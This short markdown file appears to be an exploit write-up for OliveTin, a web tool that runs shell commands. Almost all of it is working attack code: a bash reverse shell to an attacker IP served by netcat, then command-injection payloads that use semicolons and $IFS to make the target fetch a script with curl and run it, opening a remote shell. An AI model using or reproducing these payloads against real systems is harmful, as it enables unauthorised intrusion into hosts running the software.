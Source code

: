 on attack box make a rev shell file
```
echo "bash -i >& /dev/tcp/192.168.48.134/1234 0>&1" > shell.sh
```

then run netcat on port 80 or 443 (cant have any special ports)
```
nc -lvp 80 < shell.sh
```

from the olivetin theme repo then (only from docker container)
```
http://a;sh</dev/tcp/192.168.48.134/80
```

on service(.deb file or .rpm) this writes to the host
```powershell
http://;/usr/bin/curl$IFS"http://192.168.48.134/shell"$IFS"-o"$IFS"/tmp/shell"
```
then in a second command do to get shell
```powershell
http://;bash$IFS/tmp/shell
```
